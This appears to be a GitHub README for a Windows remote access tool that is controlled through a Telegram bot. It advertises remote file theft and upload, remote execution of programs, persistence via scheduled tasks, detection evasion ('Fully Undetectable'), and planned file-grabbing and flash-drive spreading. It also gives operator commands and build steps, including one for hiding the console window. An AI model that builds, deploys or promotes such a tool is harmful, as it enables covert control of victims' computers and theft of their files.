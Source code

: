 # file Dropper

## Table of Contents

- [About](#about)
- [Features](#getting_started)
- [Usage](#usage)


## About <a name = "about"></a>

Windows file Dropper and (file Manager)  using Telegram.
this program will allow yout to download and upload files to any windows computer without port forwarding useing telegram  and also is Fully encrypted means (The data being exchanged cannot be spied upon using MITM tools).

## Features  <a name = "getting_started"></a>

* upload File
* download File
* excute .exe remotly
* navigate File System
* Great Perfomance (using Async/Await)
* autoRun (Using schtasks)
* Fud (Fully Undetectable)
* multi client (program will genrate client id at first connection)
* [Todo] automatic file Graber
* [Todo] Spreader (re Infect Flash drives)



### Prerequisites

Dart Sdk.


```
use only in Windows platform.
```

### Installing
go to https://dart.dev/get-dart#install.
install dart-SDK


## Usage <a name = "usage"></a>
```
commands:
*************** Note Evry Single  Command Should be Seprated with Space ***************
* /online {use this command to get all connected users and their IDs}.
* /cd [path] [userID] {use This Command to change currunt dir }
* /getUser [id] {
    use This command to get userName
}

* /getFile [filePath with Name] [userId] {
    use This Command to Get A file from Computer
}
* /pwd [userId] {
    get Current Working directory
}
* /run [programPath] [userID] {
    Execute Program remotly 
}

```
go to program Directory /source.
* Change const.dart file line 6 with your Own telegram bot api.
* Compile using  [ dart2native bin/drop_it.dart -o bin/myApp.exe].
* -*** Note change your Const.dart programid to your compiled program Name.
* use this command to hide console while app is running [editbin.exe /subsystem:windows {yourapp}.exe]

editbin.exe is apart of  the microsoft Visual studio 2019 {if this is not working  find it in Visual studio 2019 installed dir }

![alt text](https://i.ibb.co/kcjLr5S/result.png)



